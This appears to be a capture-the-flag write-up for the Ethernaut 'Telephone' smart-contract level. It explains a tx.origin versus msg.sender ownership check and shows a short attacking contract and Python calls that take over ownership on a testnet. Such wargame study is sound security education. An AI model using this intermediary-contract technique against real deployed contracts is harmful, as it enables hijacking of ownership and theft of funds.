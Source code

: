 ### Objectives

Claim ownership of the contract to complete this level.

### Solution

The function `changeOwner()` compares whether the address that sends the tx (`tx.origin`) is the same as the address that interacts with the contract (`msg.sender`). In this case it isn't, so the owner is changed as per the function's instructions:

```js
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

Therefore, the only thing needed here is a attacking contract which interacts with the original Telephone contract. This way the contract is the `msg.sender` while the address that interacts with the attacking contract is the `tx.origin`.

### How I did it

1. I deployed the contract `TelephoneAttack` (at: `0x756a2E146F4f9659E7c16a90948A09aB09925F19`) which interfaces with the original Telephone contract and calls its `changeOwner()` function as follows:

```js
function callChangeOwner(address _newOwner) external {
    telephoneContract.changeOwner(_newOwner);
}
```

where `_newOwner` is the address we want to assign as new contract owner for the Telephone contract.

2. Set the instance address and call the function with my account address from which I deployed the attacking contract:

```python
telephoneattack.callChangeOwner(acc.address, _from)  
```

Block explorer: https://rinkeby.etherscan.io/tx/0x20ffc17549522276816942656e14c9fe459064afd3f99e0f851ca555cfb64711

3. Check that we're the new owner

```python
owner_assertion = telephone.owner() == acc.address
print(f'The account owner matches my address: {owner_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x7c11bb8f65a6117b8f2e17622f3bbdcc81214b8d5daafa41bbbeb54dfc60e4b5
